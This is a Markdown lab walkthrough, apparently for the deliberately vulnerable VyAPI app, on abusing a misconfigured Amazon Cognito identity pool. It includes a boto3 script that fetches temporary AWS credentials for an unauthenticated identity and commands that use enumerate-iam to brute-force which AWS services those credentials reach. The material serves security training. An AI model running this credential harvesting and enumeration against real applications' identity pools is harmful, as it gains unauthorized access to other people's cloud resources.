 # Amazon Cognito Authorization Issue

- [Amazon Cognito Authorization Issue](#amazon-cognito-authorization-issue)
  - [1. Setup AWS CLI](#1-setup-aws-cli)
  - [2. Create Test Scripts](#2-create-test-scripts)
    - [Boto3: Get Pool Credentials](#boto3-get-pool-credentials)
    - [Enumerate IAM](#enumerate-iam)
  - [3. Find a Cognito Identity Pool ID](#3-find-a-cognito-identity-pool-id)
  - [4. Fetch Temporary AWS Credentials](#4-fetch-temporary-aws-credentials)
  - [5. Check Unauthenticated Access to AWS Services](#5-check-unauthenticated-access-to-aws-services)
  - [Play With Amazon Cognito Setup](#play-with-amazon-cognito-setup)
  - [References](#references)

## 1. Setup AWS CLI

1. Install AWS CLI
2. Configure AWS CLI

        $ aws configure

## 2. Create Test Scripts

### Boto3: Get Pool Credentials

1. Create a virtual environment for **Python 2.7**

        $ virtualenv -p /usr/bin/python2.7 venv

2. Activate the virtual environment

        $ source venv/bin/activate

3. Install **Boto3** package

        (venv) $ pip install boto3

4. Create a file `get_pool_credentials.py` with following content

    ```python
    import boto3
    import sys

    def get_pool_credentials(region, identity_pool):
        client = boto3.client('cognito-identity', region_name=region)

        _id = client.get_id(IdentityPoolId=identity_pool)
        _id = _id['IdentityId']

        credentials = client.get_credentials_for_identity(IdentityId=_id)
        access_key = credentials['Credentials']['AccessKeyId']
        secret_key = credentials['Credentials']['SecretKey']
        session_token = credentials['Credentials']['SessionToken']
        identity_id = credentials['IdentityId']

        print ("Access Key: " + access_key + "\n")
        print ("Secret Key: " + secret_key + "\n") 
        print ("Session Token: " + session_token + "\n")
        print ("Identity ID: " + identity_id + "\n")

    get_pool_credentials(sys.argv[1], sys.argv[2]);
    ```

### Enumerate IAM

1. Clone the `enumerate-iam` GitHub repository and setup the test environment

    ```bash
    (venv) $ git clone git@github.com:andresriancho/enumerate-iam.git
    (venv) $ cd enumerate-iam/
    (venv) $ pip install -r requirements.txt
    ```

2. Test if the script works fine

        (venv) $ python enumerate-iam.py

    ![Enumerate IAM script](image/2-enumerate-iam.png)

## 3. Find a Cognito Identity Pool ID

1. In the unzipped VyAPI bundle, look for configuration files

        $ find ./ -name "*config*"

    ![Search for configuration files](image/1-search-config-files.png)

2. Check the contents of `awsconfiguration.json` file
3. Copy the value of `PoolId` parameter from the configuration file. 
   
    *Note:* We are looking for a string which is similar to
   
        us-east-1:f0e6168e-4865-4890-97e5-489cd6106g83

## 4. Fetch Temporary AWS Credentials

Use **Boto3** python script to fetch the temporary AWS credentials

    (venv) $ python get_pool_credentials.py "<REGION_ID>" "<COGNITO_IDENTITY_POOL_ID>"

![Fetch temporary AWS credentials](image/3-get-pool-credentials.png)

## 5. Check Unauthenticated Access to AWS Services

Use the `enumerate-iam.py` python script to check which AWS services have unauthenticated access enabled

    (venv) $ python enumerate-iam.py --access-key "<ACCESS_KEY>" --secret-key "<SECRET_KEY>" --session-token "<SESSION_TOKEN>" --region "<REGION_ID>"

![Brute force AWS service access](image/4-brute-force-aws-service-access.png)

## Play With Amazon Cognito Setup

1. Access VyAPI local repository

        $ cd VyAPI/

2. Run below command to modify existing authentication settings

        $ amplify auth update

## References

* [https://docs.python-guide.org/dev/virtualenvs/](https://docs.python-guide.org/dev/virtualenvs/)
* [Internet-Scale analysis of AWS Cognito Security](https://andresriancho.com/internet-scale-analysis-of-aws-cognito-security/)
* [https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html)
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)